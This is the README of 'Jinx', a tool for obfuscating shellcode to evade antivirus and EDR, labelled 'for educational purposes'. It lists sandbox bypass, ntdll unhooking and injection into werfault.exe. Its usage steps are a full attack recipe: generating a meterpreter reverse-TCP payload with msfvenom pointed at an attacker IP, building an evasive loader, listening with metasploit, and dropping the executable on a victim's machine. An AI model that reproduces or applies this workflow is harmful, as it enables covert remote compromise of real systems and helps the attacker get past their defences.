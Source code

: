 # Jinx (For Educational Purposes Only)
## Shellcode obfuscation tool to avoid AV/EDR.
[![Python 3.10.4](https://img.shields.io/badge/Python-3.10.4-yellow.svg)](https://www.python.org/) [![C++ 14](https://img.shields.io/badge/C%2B%2B-14-blue)](https://visualstudio.microsoft.com/vs/features/cplusplus/) [![License: MIT](https://img.shields.io/badge/License-MIT-brightgreen.svg)](https://opensource.org/licenses/MIT)

## Features
- Obfuscation - base64 encoding and XOR encryption with a randomly generated key.
- Sandbox Bypass - custom sleep function.
- DLL Unhooking - full unhook of ntdll.dll.
- Process Injection - injecting the payload to werfault.exe.

## Requirements
Jinx requires [Python3](https://www.python.org/) and [Visual Studio](https://visualstudio.microsoft.com/vs/features/cplusplus/) to use.

## Usage
1. Clone the repository:
```bash
git clone <url>
```

2. Generate the shellcode. In this demonstration we will be using msfvenom in a kali machine:
```bash
msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=<Attacker IP> LPORT=1337 -f raw -o shellcode
```

3. Put the shellcode in the cloned repository and use the obfuscator.py tool to obfuscate it:
```bash
python3 obfuscator.py shellcode
```
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;Note: Our shellcode then be obfuscated to **obfuscatedPayload.bin** with the **key.bin** key and saved in loader/Jinx.

4. Open loader/Jinx.sln, the Visual Studio solution file.

5. Build The project (Recommended: change the build configuration from Debug to Release).<br>Note: The executable file will be located at loader/x64/Release/Jinx.exe or loader/x64/Debug/Jinx.exe, depends on the build configuration.

6. On the attacker's machine, listen for TCP connections on the defined port. In our case, run metasploit's multi/handler on port 1337.

7. Drop the executable onto the victim's machine and run it.

## Authors and acknowledgment
[dkonis](https://github.com/dkonis) - Research & Development
<br>
[RonKon](https://github.com/RonKonis) - Development
<br>
[SheL3G](https://github.com/SheL3G) - Research

## License
Distributed under the MIT License. See LICENSE.txt for more information.
